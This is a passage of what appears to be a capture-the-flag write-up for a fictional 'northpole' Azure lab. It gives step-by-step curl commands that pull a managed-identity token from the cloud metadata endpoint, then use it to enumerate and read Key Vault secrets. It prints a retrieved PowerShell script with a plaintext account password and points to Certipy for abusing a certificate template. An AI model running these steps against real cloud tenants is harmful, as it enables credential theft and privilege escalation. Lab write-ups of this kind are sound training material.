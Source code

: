   }
}
```

### Get the new access token: 

```curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net' -H Metadata:true -s | jq```

We need to record the base64 access token returned to us. It should be in json format after ```"access_token":```

### KEY VALUT password: 

Request a new Token: 

```curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq```

Use the new token to make request: 

```bash linenums="1" hl_lines="7" title="Just code"
curl -X GET -H "Authorization: Bearer <New_Token>" "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv/privateEndpointConnections?api-version=2022-07-01" | jq
```


### Get the secret name: 

Use ```curl -X GET -H "Authorization: Bearer <New_Token>" ``` followed by the URL below:

"https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4" | jq

"https://northpole-it-kv.vault.azure.net/certificates/issuers?api-version=7.4" | jq

"https://northpole-it-kv.vault.azure.net/certificates?api-version=7.4" | jq


### Get the secret content by its name: 

```curl -X GET -H "Authorization: Bearer <New_Token>" "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4" | jq ```

We can use above commands to request those resources below: 


```
{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}
```

Refer back to penetration test report challenge, there is a vulnerability in certificate template used in active directory Certificate Services. 

```https://github.com/ly4k/Certipy```

```